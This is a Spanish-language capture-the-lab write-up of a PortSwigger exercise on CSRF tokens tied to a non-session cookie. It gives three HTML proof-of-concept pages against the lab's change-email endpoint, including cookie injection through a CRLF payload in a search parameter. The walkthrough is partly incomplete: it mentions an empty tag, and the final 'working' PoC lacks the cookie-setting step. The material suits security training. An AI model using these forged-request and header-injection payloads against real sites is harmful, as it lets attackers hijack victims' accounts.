

En una variación de la vulnerabilidad anterior, algunas aplicaciones vinculan el token CSRF a una cookie, pero no a la misma cookie que se utiliza para rastrear las sesiones. Esto puede ocurrir fácilmente cuando una aplicación emplea dos frameworks diferentes, uno para el manejo de sesiones y otro para la protección CSRF, que no están integrados entre sí

Esta situación es más difícil de explotar, pero sigue siendo vulnerable. Si el sitio web contiene algún comportamiento que permita a un atacante establecer una cookie en el navegador de la víctima, entonces es posible realizar un ataque. El atacante puede iniciar sesión en la aplicación utilizando su propia cuenta, obtener un token válido y una cookie asociada, aprovechar el comportamiento de establecimiento de cookies para colocar su cookie en el navegador de la víctima, y alimentar su token a la víctima en su ataque CSRF.

El comportamiento de establecimiento de cookies ni siquiera necesita existir dentro de la misma aplicación web que la vulnerabilidad CSRF. Cualquier otra aplicación dentro del mismo dominio DNS general puede ser potencialmente aprovechada para establecer cookies en la aplicación que está siendo atacada, si la cookie que es controlada tiene el alcance adecuado. Por ejemplo, una función de establecimiento de cookies en staging.demo.normal-website.com podría ser aprovechada para colocar una cookie que es enviada a secure.normal-website.com.

## LAB:


Según lo explicado, un token CSRF y el csrf pueden estar vinculados, pero sin este no este asociado a la sesión este puede ser explotado.

Para entender mejor, interceptaremos la actualización de mail del usuario **wiener** :


Luego interceptaremos la actualización del usuario **carlos** y luego copiaremos el CSRF y el CSRF token de wiener para colocarlos en la solicitud del usuario carlos



Al enviar la solicitud observamos que este cambia el correo correctamente. Ahora vamos a crear la POC, intente de varias manera como se muestra a continuación.

```html
<html>
  <body>
    <form action="https://0ada0033046d346580248ac700ae0005.web-security-academy.net/my-account/change-email" method="POST" id="csrfForm">
      <input type="hidden" name="email" value="test1@test.com">
      <input type="hidden" name="csrf" value="eJO0b82LEU6mztmLBWr41V0eF349ItQo">
    </form>

    <script>
      document.cookie = "csrfKey=j3E3r5Bkj1MZXPMrxNcwOHgFAyc0HNvQ; path=/";
      document.cookie = "session=CE8Dh6RwzqdMr5S3LKq9TJO4RVOBQKgK; path=/";
      document.getElementById("csrfForm").submit();
    </script>
  </body>
</html>

```


```html
<html>
  <body>
    <form action="https://0ada0033046d346580248ac700ae0005.web-security-academy.net/email/change" method="POST" id="csrfForm">
      <input type="hidden" name="csrf" value="nwA4aBrVat0amHXA9Z6nfo8coPU8JhWK"/>
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>

    <!-- Fuerza el Set-Cookie a través de CRLF injection -->
    <iframe src="https://0ada0033046d346580248ac700ae0005.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=kE4no0fY9JeJvK9KSGzoZrIYZ7PTubzQ" style="display:none;" onload="document.getElementById('csrfForm').submit();"></iframe>
  </body>
</html>

```

El que me funciono es con la etiqueta `` 

```html
<html>
  <body>
    <form action="https://0ada0033046d346580248ac700ae0005.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned@evil.net" />
      <input type="hidden" name="csrf" value="nkLhML9Nz1ihefZnq0yKU8fV625MFlKG" />
      <input type="submit" value="Submit request" />
    </form>
      
  </body>
</html>
```

una vez creada la POC 

Guarde el exploit y haga clic en "Deliver to victim" para resolver el laboratorio.